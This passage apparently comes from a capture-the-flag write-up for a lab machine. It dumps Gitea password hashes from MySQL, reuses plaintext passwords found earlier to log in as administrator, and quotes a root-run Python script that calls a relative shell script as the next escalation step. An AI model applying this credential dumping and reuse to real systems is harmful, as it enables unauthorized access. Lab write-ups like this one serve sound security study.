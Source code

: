 ```bash
*************************** 1. row ***************************
                            id: 1
                    lower_name: administrator
                          name: administrator
                     full_name:
                         email: administrator@gitea.searcher.htb
            keep_email_private: 0
email_notifications_preference: enabled
                        passwd: ba598d99c2202491d36ecf13d5c28b74e2738b07286edc7388a2fc870196f6c4da6565ad9ff68b1d28a31eeedb1554b5dcc2
              passwd_hash_algo: pbkdf2
<SNIP>
1 row in set (0.00 sec)

ERROR:
No query specified

mysql> select name, passwd from user;
+---------------+------------------------------------------------------------------------------------------------------+
| name          | passwd                                                                                               |
+---------------+------------------------------------------------------------------------------------------------------+
| administrator | ba598d99c2202491d36ecf13d5c28b74e2738b07286edc7388a2fc870196f6c4da6565ad9ff68b1d28a31eeedb1554b5dcc2 |
| cody          | b1f895e8efe070e184e5539bc5d93b362b246db67f3a2b6992f37888cb778e844c0017da8fe89dd784be35da9a337609e82e |
+---------------+------------------------------------------------------------------------------------------------------+
2 rows in set (0.00 sec)
```

We have found 2 hashed passwords, but we already have the password for `cody` as well as the `MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF` which we haven't used yet. Let's try logging in `gitea.searcher.htb` as `administrator:jI86kGUuj87guWr3RyF` or `administrator:yuiu1hoiu4i5ho1uh` prior trying to crack the hashes:

![](gitea_admin.png)

The second pair of creds worked; we have now admin access to the sub-domain. We can now read the contents of the `system-checkup.py` script, which we can run as `root` with the `svc` user. Upon inspecting the script, we notice that there is a `./full-checkup.sh` argument:

```python
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```
